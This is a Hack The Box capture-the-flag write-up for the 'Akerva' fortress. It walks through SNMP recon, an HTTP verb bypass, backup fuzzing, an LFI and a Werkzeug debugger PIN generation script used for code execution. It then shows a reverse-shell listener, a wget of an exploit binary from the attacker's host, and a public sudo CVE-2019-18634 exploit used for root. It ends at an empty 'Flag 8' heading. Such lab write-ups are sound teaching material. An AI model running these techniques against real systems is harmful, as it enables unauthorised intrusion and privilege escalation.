





# HTB Fortress Writeup: Akerva
## By: gnos1s

Akerva was a nice easy fortress. The path was pretty clear and I learned a lot along the way. Great for newer players who want to get into the fortresses! I did Faraday first and I can say that the user part of Faraday is a little harder.

## Flag 1: Plain Sight

As usual, let's start with an Nmap scan:

```
$ nmap -sC -sV -oA nmap 10.13.37.11
# Nmap 7.92 scan initiated Sat Sep  2 09:41:58 2023 as: nmap -sC -sV -oA 10.13.37.11 10.13.37.11
Nmap scan report for 10.13.37.11
Host is up (0.41s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0d:e4:41:fd:9f:a9:07:4d:25:b4:bd:5d:26:cc:4f:da (RSA)
|   256 f7:65:51:e0:39:37:2c:81:7f:b5:55:bd:63:9c:82:b5 (ECDSA)
|_  256 28:61:d3:5a:b9:39:f2:5b:d7:10:5a:67:ee:81:a8:5e (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.4-alpha-47225
|_http-title: Root of the Universe &#8211; by @lydericlefebvre &amp; @akerva_fr
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
| http-auth:
| HTTP/1.0 401 UNAUTHORIZED\x0D
|_  Basic realm=Authentication Required
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep  2 09:44:28 2023 -- 1 IP address (1 host up) scanned in 151.03 seconds
```

Ports 22, 80, and 5000 open. I can't access port 5000 yet because it requires HTTP basic authorization credentials. Port 80 appears to be a WordPress website.


I actually only got this first flag after the fourth one. That's because I'm lazy and I didn't do enough recon. It turns out that the flag is lying right there on the homepage of the website!



## Flag 2: Take A Look Around

It turns out that I missed something else crucial in the Nmap scan. It took me a while to work out what it was. If we try with a UDP scan, port 161 is open:

```
Nmap scan report for akerva.htb (10.13.37.11)
Host is up (0.26s latency).

PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

It seems like SNMP is running. Let's run snmpwalk to see if we can extract any data:

```
$ snmpwalk -v2c -c public 10.13.37.11

<snip>

HOST-RESOURCES-MIB::hrSWRunParameters.1034 = STRING: "-D"
HOST-RESOURCES-MIB::hrSWRunParameters.1035 = STRING: "-o -p -- \\u --noclear tty1 linux"
HOST-RESOURCES-MIB::hrSWRunParameters.1059 = STRING: "-k start"
HOST-RESOURCES-MIB::hrSWRunParameters.1223 = STRING: "-f"
HOST-RESOURCES-MIB::hrSWRunParameters.1224 = STRING: "-f"
HOST-RESOURCES-MIB::hrSWRunParameters.1225 = STRING: "-c /opt/check_backup.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1226 = STRING: "-c /opt/check_devSite.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1227 = STRING: "/opt/check_backup.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1228 = STRING: "/opt/check_devSite.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.1231 = STRING: "/var/www/html/scripts/backup_every_17minutes.sh AKERVA{IkN0w_SnM################}"
HOST-RESOURCES-MIB::hrSWRunParameters.1233 = STRING: "/var/www/html/dev/space_dev.py"
HOST-RESOURCES-MIB::hrSWRunParameters.1237 = STRING: "/var/www/html/dev/space_dev.py"
HOST-RESOURCES-MIB::hrSWRunParameters.1239 = STRING: "--socket-activation"
```

We got our second flag, and there's also a scripts called backup_every_17minutes.sh and space_dev.py that we could check out.

## Flag 3: Dead Poets

Let's try grabbing backup_every_17minutes.sh:

```
$ curl http://10.13.37.11/scripts/backup_every_17minutes.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>
```

Unathorized. 

Let's also try grabbin the space_dev.py file:

```
$ curl http://10.13.37.11/dev/space_dev.py
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>
```

This one's forbidden. Huh... forbidden is different from unauthorized.

Let's try changing to a POST request:

```
ethanwang@Macintosh-3 Akerva % curl http://10.13.37.11/scripts/backup_every_17minutes.sh -X POST
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRb#############}
#

SAVE_DIR=/var/www/html/backups

while true
do
	ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
	echo "Erasing old backups..."
	rm -rf $SAVE_DIR/*

	echo "Backuping..."
	zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

	echo "Done..."
	sleep 1020
done
```

## Flag 4: Now You See Me

We got the script! It seems to backup the source code every 17 minutes to /backups. My first reaction here is to fuzz for the zip.

We know the year, month, date, and we know the hour. We just need to fuzz the minutes and seconds, which is a total of 60*60=3600 combinations. It would be much simpler to just use the 4-digit wordlist in SecLists, it's actually 10000 combinations. So we get 1 hour to fuzz for 10000 possible combinations. Very reasonable.

I'll use ffuf for this. (Wfuzz should also work but I'm more used to ffuf, so yeah.)

First, we need the server's date:

```
$ curl 10.13.37.11 --head
HTTP/1.1 200 OK
Date: Mon, 18 Sep 2023 09:49:47 GMT
Server: Apache/2.4.29 (Ubuntu)
X-Pingback: http://10.13.37.11/xmlrpc.php
Link: <http://10.13.37.11/index.php/wp-json/>; rel="https://api.w.org/"
Link: <http://10.13.37.11/>; rel=shortlink
Content-Type: text/html; charset=UTF-8
```

The server is at 18 Sep 2023, 09:49. Let's use that to fuzz:

```
$ ffuf -w ~/SecLists/Fuzzing/4-digits-0000-9999.txt:FUZZ -u http://10.13.37.11/backups/backup_2023091809FUZZ.zip

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.13.37.11/backups/backup_2023091809FUZZ.zip
 :: Wordlist         : FUZZ: /Users/ethanwang/SecLists/Fuzzing/4-digits-0000-9999.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 22071775, Words: 0, Lines: 0, Duration: 0ms]
    * FUZZ: 3629

[WARN] Caught keyboard interrupt (Ctrl-C)
```

Now, we have the location of the backup! I downloaded the backup to my machine, then unzipped it. There are a lot of files in the archive, but the only one I find interesting is space_dev.py:

```
#!/usr/bin/python

from flask import Flask, request
from flask_httpauth import HTTPBasicAuth
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
auth = HTTPBasicAuth()

users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_##############}")
        }

@auth.verify_password
def verify_password(username, password):
    if username in users:
        return check_password_hash(users.get(username), password)
    return False

@app.route('/')
@auth.login_required
def hello_world():
    return 'Hello, World!'

# TODO
@app.route('/download')
@auth.login_required
def download():
    return downloaded_file

@app.route("/file")
@auth.login_required
def file():
	filename = request.args.get('filename')
	try:
		with open(filename, 'r') as f:
			return f.read()
	except:
		return 'error'

if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)

```

We have the 4th flag, and this app seems to be the one running on port 5000.

## Flag 5: Open Book

Navigating to the webserver and entering the credentials, we just get the page "Hello World!". We know that there are /download and /file endpoints. /download just gives an error:



/file just seems to be a LFI. I can request whatever files I want:



I can already piece together what I need to do here. I need to reassemble the Werkzeug debugger PIN using the LFI and get remote code execution.

First, I download the source code from Github. Now, I use the LFI to get the values I need. Really not much to say about this process, it's just filling in some values. Here's the final source code:

```
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
	'aas',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None),
]

private_bits = [
	'345052385695',# str(uuid.getnode()),  /sys/class/net/ens33/address
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'258f132cd7e647caaf5510e3aca997c1'
]

h = hashlib.md5() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print("Pin: " + rv)
```

```
$ python3 pin_bypass.py
Pin: 164-845-367
```



I now have RCE! I'm gonna use a payload from revshells.com to get a reverse shell:



And I have my shell! I can just read flag.txt.

```
$ nc -lvvvnp 9001 -s 10.10.16.2
Listening on 10.10.16.2 9001 (etlservicemgr)
Connection from 10.13.37.11:48454
$ ls
ls
flag.txt
$ cat flag.txt
cat flag.txt
AKERVA{##########_@_}
```

## Flag 6: Say Friend And Enter

This flag is probably the easiest of all. All you have to do is run 'ls -al' on the aas's home directory. A hidden file called .hiddenflag.txt is revealed and you can read it:

```
$ ls -al
ls -al
total 28
drwxr-xr-x 3 aas  aas  4096 Feb  9  2020 .
drwxr-xr-x 3 root root 4096 Feb  9  2020 ..
-rw------- 1 root root    0 Dec  7  2019 .bash_history
-rw-r--r-- 1 aas  aas   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aas  aas  3771 Apr  4  2018 .bashrc
-r-------- 1 aas  aas    21 Feb  9  2020 flag.txt
-rw-r--r-- 1 root root   38 Feb  9  2020 .hiddenflag.txt
dr-xr-x--- 2 aas  aas  4096 Feb 10  2020 .ssh
$ cat .hiddenflag.txt
cat .hiddenflag.txt
AKERVA{IkNOW#=ByPassWerk############}
```

## Flag 7: Super Mushroom

This next root privesc is really simple too. Simple checking the sudo version will show you it's running sudo 1.8.21p2. 

```
$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

This is vulnerable to CVE-2019-18634. I just have to find a POC on Github and run it:

```
ubuntu@primary:~/sudo-cve-2019-18634$ ls
LICENSE  Makefile  README.md  exploit  exploit.c
ubuntu@primary:~/sudo-cve-2019-18634$ make
make: Nothing to be done for 'all'.
ubuntu@primary:~/sudo-cve-2019-18634$ make clean
ubuntu@primary:~/sudo-cve-2019-18634$ make
cc -Os -g3 -std=c11 -Wall -Wextra -Wpedantic -static -o exploit exploit.c
```

```
$ wget http://10.10.16.2:8000/exploit
wget http://10.10.16.2:8000/exploit
--2023-09-17 09:14:27--  http://10.10.16.2:8000/exploit
Connecting to 10.10.16.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 984368 (961K) [application/octet-stream]
Saving to: ‘exploit’

exploit             100%[===================>] 961.30K   561KB/s    in 1.7s

2023-09-17 09:14:30 (561 KB/s) - ‘exploit’ saved [984368/984368]

c$ ^R
chmod +x exploit
chmod +x exploit
$ ./exploit
./exploit
[sudo] password for aas:
... and it used to be so popular...
# id
id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(aas)
```

And boom, I have a root shell! I can now read the root flag.

```
# cat flag.txt
cat flag.txt
AKERVA{IkNow_#############}
```

## Flag 8: Little Secret